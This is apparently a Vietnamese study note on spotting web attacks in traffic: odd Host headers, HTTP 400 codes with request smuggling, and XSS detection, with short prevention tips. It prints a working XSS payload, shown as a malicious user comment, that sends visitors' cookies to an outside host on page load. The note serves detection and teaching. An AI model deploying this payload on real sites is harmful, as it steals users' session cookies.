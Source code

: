 ### Finding Strange Host Headers

![Pasted image 20240829191835](https://github.com/user-attachments/assets/533b0644-9321-456d-9971-0372c64cd528)
![Pasted image 20240829192128](https://github.com/user-attachments/assets/6a94477c-147f-46c9-94d9-de8be0981ac7)

Các Header tệ có thể thấy như 127.0.0.1
![Pasted image 20240829192146](https://github.com/user-attachments/assets/b1ecb7ff-2492-4da4-afb7-8db1a5ad4252)

admin

https://www.yeswehack.com/learn-bug-bounty/http-header-exploitation

### Analyzing Code 400s and Request Smuggling

Code 400 -> cho thấy một "yêu cầu xấu" từ phía client
![Pasted image 20240829192547](https://github.com/user-attachments/assets/f605df04-a7ec-41c2-aafc-83b852d50f85)

Follow ->
![Pasted image 20240829192609](https://github.com/user-attachments/assets/90bed0b8-8309-4bdc-92a5-10c46a2996f9)

cve: https://github.com/dhmosfunk/CVE-2023-25690-POC

Code 200 -> response success


## Cross-Site Scripting (XSS) & Code Injection Detection
![Pasted image 20240829192850](https://github.com/user-attachments/assets/295950eb-aca2-4444-955b-47fe70567829)

![Pasted image 20240829193510](https://github.com/user-attachments/assets/0c95a157-61be-45d3-b81d-5b3a52ecf188)

->, giả sử có khu vực nhận xét của người dùng trên máy chủ web h. Chúng ta có thể nhận thấy một trong những comment trông giống như sau.
Code: javascript

```javascript
<script>
  window.addEventListener("load", function() {
    const url = "http://192.168.0.19:5555";
    const params = "cookie=" + encodeURIComponent(document.cookie);
    const request = new XMLHttpRequest();
    request.open("GET", url + "?" + params);
    request.send();
  });
</script>
```
một số trường hợp kẻ tấn công có thể cố gắng chèn mã vào các trường này như hai ví dụ sau.
![Pasted image 20240829193901](https://github.com/user-attachments/assets/43c2c25b-abf2-41cf-bddb-3bf0917c62af)


#### Preventing XSS and Code Injection
+ xử lý thông tin đầu vào của người dùng 
+ không diễn giải thông tin đầu vào của người dùng dưới dạng mã.
